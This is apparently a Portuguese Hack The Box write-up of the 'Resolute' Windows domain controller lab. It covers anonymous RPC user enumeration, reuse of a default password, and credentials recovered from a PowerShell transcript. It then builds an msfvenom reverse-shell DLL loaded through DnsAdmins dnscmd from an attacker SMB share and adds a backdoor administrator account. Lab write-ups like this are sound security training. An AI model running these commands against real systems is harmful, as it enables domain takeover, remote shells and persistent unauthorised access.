

1. [Resolução da máquina **Resolute**](#resolução-da-máquina-resolute) 1. [Máquina Medium (hackthebox.com)](#máquina-medium-hacktheboxcom) 2. [by **_JavaliMZ_** - 17/09/2021](#by-javalimz---17092021)
2. [Enumeração](#enumeração)
    1. [Servidor Samba](#servidor-samba)
    2. [Servidor RPC](#servidor-rpc)
3. [PrivEsc](#privesc)
4. [Grupo MEGABANK\\DnsAdmins](#grupo-megabankdnsadmins)
    1. [Criação do ficheiro.dll malicioso](#criação-do-ficheirodll-malicioso)
5. [We are authority\\system](#we-are-authoritysystem)


# Resolução da máquina **Resolute**

#### Máquina Medium (hackthebox.com)

#### by **_JavaliMZ_** - 17/09/2021

---

---

# Enumeração

A primeira fase de todo e qualquer PenTesting é a fase de enumeração. Para isso, irei utilizar a clássica ferramenta NMAP.


Montes de portas para esta máquina! Ainda nunca me lembrei de falar de uma função que tenho definida a nível de zshrc. Para quem segue o S4vitar, sabe certamente da sua utilidade **_"exctractports"_** (Atenção à prenuncia: igzxtráááááctPóórt). E para quem não conhece, recomendo vivamente!! (https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q). Alterei um pouco a função dele para se adequar ao meu ambiente WSL2 e para copiar para clipboard não só as portas, mas também o "nmap <IP> -p<Portas>" e a seguir é que ponho manualmente os parâmetros que quero.

```bash
extractPorts () {
	reset="\e[0m"
	amarelo="\e[1;33m"
	verde="\e[1;32m"
	vermelho="\e[1;31m"
	checkAmarelo="$amarelo [*]$reset"
	check="  $verde✔$reset"
	ports=$(cat $1 | grep -oP '(?<=Ports:).*' | sed "s/,/\n/g" | sed 's/\// /g' | awk '{print $1}' | tr '\n' ',' | sed 's/,$/\n/')
	portsComEspacos=$(cat $1 | grep -oP '(?<=Ports:).*' | sed "s/,/\n/g" | sed 's/\// /g' | awk '{print $1}' | tr '\n' ',' | sed 's/,$/\n/' | sed 's/,/, /g')
	ip=$(cat $1 | grep Host | awk '{print $2}' | uniq)
	echo "Enumeração das portas:\n" > /tmp/nmapTmp.txt
	echo "$checkAmarelo \tIP Address: $ip" >> /tmp/nmapTmp.txt
	echo "$checkAmarelo \tOpen Ports: $portsComEspacos \n" >> /tmp/nmapTmp.txt
	cmd="nmap -p$ports $ip"
	echo "$verde Sugestão (copiado em clipboard):$reset \t\t $cmd" >> /tmp/nmapTmp.txt
	/usr/bin/batcat /tmp/nmapTmp.txt
	rm /tmp/nmapTmp.txt
	echo "$cmd" | clip.exe
}
```


```txt
# Nmap 7.91 scan initiated Fri Sep 17 09:53:36 2021 as: nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49688,49711,54059 -sC -sV -Pn -oN enumeration/nmap-A.txt 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.041s latency).

PORT      STATE  SERVICE      VERSION
53/tcp    open   domain       Simple DNS Plus
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2021-09-17 09:00:45Z)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf       .NET Message Framing
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        Microsoft Windows RPC
49665/tcp open   msrpc        Microsoft Windows RPC
49666/tcp open   msrpc        Microsoft Windows RPC
49667/tcp open   msrpc        Microsoft Windows RPC
49671/tcp open   msrpc        Microsoft Windows RPC
49676/tcp open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open   msrpc        Microsoft Windows RPC
49688/tcp open   msrpc        Microsoft Windows RPC
49711/tcp open   msrpc        Microsoft Windows RPC
54059/tcp closed unknown
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h27m02s, deviation: 4h02m32s, median: 7m00s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2021-09-17T02:01:38-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-09-17T09:01:37
|_  start_date: 2021-09-16T18:30:10

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 17 09:54:44 2021 -- 1 IP address (1 host up) scanned in 67.49 seconds
```

Esta máquina é muito provavelmente um Active Directory / Domain Controller (AD/DC). Tem kerberos, samba, winrm, ldap...

Neste momento, temos escolha, mas o caminho que recomendo seguir é tentar entrar nos diversos serviços anonimamente ou com unuário "null" ou "guest".

## Servidor Samba

Por Samba, não nos é possível ver nada, a não ser o nome de domain e nome da máquina


Com outras ferramentas como smbclient ou smbmap também não se pode enumerar nada de interessante...

## Servidor RPC

Com **"rpcclient"** a coisa é diferente. Já se pode entrar em modo anónimo com usuário "" (vazio)

```bash
rpcclient -U '' 10.10.10.169 -N
```

Desta forma entramos em modo interativo e é possível introduzir comandos, tendo neste caso respostas. Mas esta ferramenta também pode ser usada com o parametro "-c" que nos permite enviar o commando, e obter resposta em output normal.

```bash
rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers'
#>  user:[Administrator] rid:[0x1f4]
#>  user:[Guest] rid:[0x1f5]
#>  user:[krbtgt] rid:[0x1f6]
#>  user:[DefaultAccount] rid:[0x1f7]
#>  user:[ryan] rid:[0x451]
#>  user:[marko] rid:[0x457]
#>  user:[sunita] rid:[0x19c9]
#>  user:[abigail] rid:[0x19ca]
#>  user:[marcus] rid:[0x19cb]
#>  user:[sally] rid:[0x19cc]
#>  user:[fred] rid:[0x19cd]
#>  user:[angela] rid:[0x19ce]
#>  user:[felicia] rid:[0x19cf]
#>  user:[gustavo] rid:[0x19d0]
#>  user:[ulf] rid:[0x19d1]
#>  user:[stevie] rid:[0x19d2]
#>  user:[claire] rid:[0x19d3]
#>  user:[paulo] rid:[0x19d4]
#>  user:[steve] rid:[0x19d5]
#>  user:[annette] rid:[0x19d6]
#>  user:[annika] rid:[0x19d7]
#>  user:[per] rid:[0x19d8]
#>  user:[claude] rid:[0x19d9]
#>  user:[melanie] rid:[0x2775]
#>  user:[zach] rid:[0x2776]
#>  user:[simon] rid:[0x2777]
#>  user:[naoki] rid:[0x2778]
```

Desta forma, podemos filtar o output, exportar para ficheiro e tal, como qualquer outro commando do sistema.

A primeira a coisa a fazer é gravar para um ficheiro todos os usernames

```bash
rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d "[]" > contents/users
```

Depois disso, podemos extrair mais informações. O RPC funciona com queries ao rid e não ao username.

```bash
rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $2}' | grep -oP '\[.*?\]' | tr -d "[]" | xargs
#> 0x1f4 0x1f5 0x1f6 0x1f7 0x451 0x457 0x19c9 0x19ca 0x19cb 0x19cc 0x19cd 0x19ce 0x19cf 0x19d0 0x19d1 0x19d2 0x19d3 0x19d4 0x19d5 0x19d6 0x19d7 0x19d8 0x19d9 0x2775 0x2776 0x2777 0x2778
```

Com todos os rids, podemos pedir detalhes de cada um e filtrar apenas os campos que nos interessa usando vários rpcclient com apenas uma linha de commando...

O que nos interessa por enquanto é obter informações básica. Queremos saber os nomes de usuários, e se o mesmo foi criado com alguma descrição que possamos usar no futuro. Em empresas, é comum mencionar dados sensíveis no campo de descrição quando o administrador cria um novo usuário (password por defeito, função, email, contacto telefónico...). É claro que, para um CaptureTheFlag, o número de telefone não me é muito util (provavelmente ser um fictício lol), mas uma palavra passe dá sempre jeito =).

```bash
for rid in $(rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $2}' | grep -oP '\[.*?\]' | tr -d "[]"); do echo; rpcclient -U '' 10.10.10.169 -N -c "queryuser $rid" | grep -E "User Name|Description"; done

#>          User Name   :   Administrator
#>          Description :   Built-in account for administering the computer/domain
#>
#>          User Name   :   Guest
#>          Description :   Built-in account for guest access to the computer/domain
#>
#>          User Name   :   krbtgt
#>          Description :   Key Distribution Center Service Account
#>
#>          User Name   :   DefaultAccount
#>          Description :   A user account managed by the system.
#>
#>          User Name   :   ryan
#>          Description :
#>
#>          User Name   :   marko
#>          Description :   Account created. Password set to Welcome123!
#>
#>          User Name   :   sunita
#>  		...
```

Aí está! **Account created. Password set to Welcome123!**. Isto é promissor.

Vamos validar a palavra passe sempre da mesma maneira... Com recurso ao crackmapexec


Bem a credencial não está boa! Porquê? Talvés porque esteja errada... Mas temos de pensar mais além! **_Welcome123!_** é muito convidativo lol. Poderá ser a password por defeito que o administrador dá quando cria um novo usuário, e para todos os novos usuários... Bem podemos tentar ver se algum usuário foi preguiçoso e não mudou a sua palavra pass...



Melanie... melanie... A preguicita aguda da nossa amiga Melanie permite-nos entrar via WinRM com a ferramenta evil-winrm

# PrivEsc

O proximo passo é muito à moda CTF (acho eu). É perciso encontrar um ficheiro oculto que contém umas credenciais de um outro usuário que está num grupo assim especial ;).

O ficheiro está oculto

```bash
cd C:\
dir -Force

#>      Directory: C:\
#>
#>
#>  Mode                LastWriteTime         Length Name
#>  ----                -------------         ------ ----
#>  d--hs-        9/16/2021   2:16 PM                $RECYCLE.BIN
#>  d--hsl        9/25/2019  10:17 AM                Documents and Settings
#>  d-----        9/25/2019   6:19 AM                PerfLogs
#>  d-r---        9/25/2019  12:39 PM                Program Files
#>  d-----       11/20/2016   6:36 PM                Program Files (x86)
#>  d--h--        9/25/2019  10:48 AM                ProgramData
#>  d--h--        12/3/2019   6:32 AM                PSTranscripts
#>  d--hs-        9/25/2019  10:17 AM                Recovery
#>  d--hs-        9/25/2019   6:25 AM                System Volume Information
#>  d-r---        12/4/2019   2:46 AM                Users
#>  d-----        12/4/2019   5:15 AM                Windows
#>  -arhs-       11/20/2016   5:59 PM         389408 bootmgr
#>  -a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
#>  -a-hs-        9/16/2021  11:29 AM      402653184 pagefile.sys

cd "C:/PSTranscripts"
dir -Force

#>      Directory: C:\PSTranscripts
#>
#>
#>  Mode                LastWriteTime         Length Name
#>  ----                -------------         ------ ----
#>  d--h--        12/3/2019   6:45 AM                20191203

cd "C:/PSTranscripts/20191203"
dir -Force

#>      Directory: C:\PSTranscripts\20191203
#>
#>
#>  Mode                LastWriteTime         Length Name
#>  ----                -------------         ------ ----
#>  -arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

type "C:/PSTranscripts/20191203/PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt"

# Pelo meio da resposta, vê-se o seguinte:

#>  Command start time: 20191203063515
#>  **********************
#>  PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
#>  >> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

> A nova credencial é ryan:Serv3r4Admin4cc123!

Vamos validar estas novas credenciais com crackmapexec (como sempre...)


Ambos os serviços indicam **_(Pwn3d!)_**, O que significa que podemos executar commando tanto pelo crackmapexec em modo smb com o parametro "-x", como por WinRM. Mas como é mais directo por WinRM, não me vou privar...

Vimos na foto o tal grupo.

# Grupo MEGABANK\DnsAdmins

Este group permite aos seus membros configurar, iniciar, e parar o serviço dns do windows. O serviço DNS pode carregar configurações a partir de ficheiros.dll. E este serviço é iniciado com privilégios máximos de Authority System! Posto isso, é fácil elaborar um exploit para nos converter-mos em administrador da máquina. O commando que queremo que o alvo execute é um reverse shell

## Criação do ficheiro.dll malicioso

```bash
[Environment]::Is64BitOperatingSystem
#>  True
```

A máquina é de 64 bits, portanto o reverse shell terá de 64 bits

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443 -f dll -o rev.dll
```

Iremos agora transferir o ficheiro para a máquina alvo com, por exemplo, certutil:


OH SHIT! O antivírus está ativo... Temos 2 soluções, ou ofuscar o código (que pode levar alguma tentativas porque não fica um ficheiro limpo) ou partilhar um servidor Samba, porque o dll malicioso pode ser chamado a partir de fora da máquina alvo!

```bash
sudo smbserver.py smbFolder $(pwd) -smb2support  # o reverse shell tem de se encontrar na pasta onde se executa o commando

sudo rlwrap nc -lvnp 443
```

```bash
dnscmd /config /serverlevelplugindll \\10.10.14.12\smbFolder\rev.dll
#>  Registry property serverlevelplugindll successfully reset.
#>  Command completed successfully.

sc.exe stop dns
# Espere uns 5 segundos (Porque é Windows...)

sc.exe start dns
```


# We are authority\system

A partir daí, podemos recuperar as flags... Mas antes, apenas para o fun, vamos criar uma certa persistência. Podemos criar um usuário, e adicioná-lo ao grupo de Administradores para poder entrar sempre que quisermos via WinRM.

```bash
net user javali J4v4li123! /add
net localgroup Administrators javali /add
```

Vamos validar com crackmapexec, e tentar entrar via WinRM


```bash
# Flags parciais

(type C:\Users\melanie\Desktop\user.txt).substring(0,15)
#>  0c3be45fcfe2497
(type C:\Users\Administrator\Desktop\root.txt).substring(0,15)
#>  e1d94876a506850
```
